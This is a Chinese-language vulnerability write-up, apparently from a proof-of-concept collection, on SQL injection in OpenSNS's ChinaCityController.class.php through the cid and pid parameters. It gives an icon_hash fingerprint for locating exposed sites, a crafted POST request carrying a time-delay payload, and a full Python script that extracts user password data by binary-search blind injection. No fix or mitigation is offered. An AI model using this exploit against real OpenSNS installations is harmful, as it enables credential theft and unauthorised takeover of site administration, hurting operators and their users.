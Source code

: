 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

存在漏洞的文件为 **Addons/ChinaCity/Controller/ChinaCityController.class.php**

![img](../../../.vuepress/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![img](../../../.vuepress/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](../../../.vuepress/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](../../../.vuepress/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)